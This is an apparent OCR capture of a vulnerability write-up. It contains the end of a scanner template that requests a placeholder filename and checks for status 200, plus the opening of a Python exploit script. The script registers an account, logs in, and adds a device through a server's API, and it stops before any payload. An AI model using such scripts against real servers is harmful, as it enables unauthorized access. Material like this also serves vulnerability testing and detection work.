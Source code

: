 ```
          - contains(content_type, "application/json")
        condition: and
        internal: true

  - raw:
      - |
        GET /{{filename}} HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - status_code == 200
```  
  
python脚本  
```
import requests
import random
import string
import sys

session = requests.session()

def generate_random_string(length=8):
    letters = string.ascii_letters
    result_str = ''.join(random.choice(letters) for i in range(length))
    return result_str


def register(target, username):
    headers = {
        'Content-Type': "application/json"
    }
    data = {
        "name": username,
        "email": f"{username}@admin.com",
        "password": "123456"
    }
    
    res = session.post(f"{target}/api/users",headers=headers, json=data)
    return res


def login(target, username):
    headers = {
        'Content-Type': "application/x-www-form-urlencoded;charset=UTF-8"
    }
    data = 'email=' + username + '@admin.com&password=123456'
    res = session.post(f"{target}/api/session",headers=headers, data=data)
    return res


def add_device(target, device_name):
    headers = {
        'Content-Type': "application/json"
    }
    data = {
        "name": device_name,
        "uniqueId": device_name
    }
    res = session.post(f"{target}/api/devices",headers=headers, json=data)
    return res

```